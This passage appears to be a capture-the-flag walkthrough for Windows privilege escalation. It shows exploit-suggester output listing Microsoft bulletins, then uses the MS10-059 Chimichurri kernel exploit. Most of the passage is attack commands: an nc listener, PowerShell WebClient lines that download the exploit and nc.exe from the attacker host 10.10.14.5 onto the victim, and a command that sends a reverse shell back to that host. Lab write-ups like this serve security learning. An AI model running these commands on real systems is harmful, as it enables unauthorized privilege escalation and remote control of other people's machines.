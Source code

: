 ```
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done
```

we try several but fail. and let's try MS10-059

### MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege 

```bash
# we will download MS10-059 from this website
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri
# download the binary
https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
```

```bash
# lhost
nc -lvp 3333
```

```powershell
# powershell
cd C:\windows\temp
# copy the Churraskito.exe to rhost
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5/Chimichurri.exe','C:\windows\temp\Chimichurri.exe')
# copy the nc.exe to rhost
(New-Object System.Net.WebClient).DownloadFile('http://10.10.14.5/nc.exe','C:\windows\temp\nc.exe')
```

```powershell
# run it from victim machine to connect host port
cmd /C "Chimichurri.exe 10.10.14.5 3333"
```
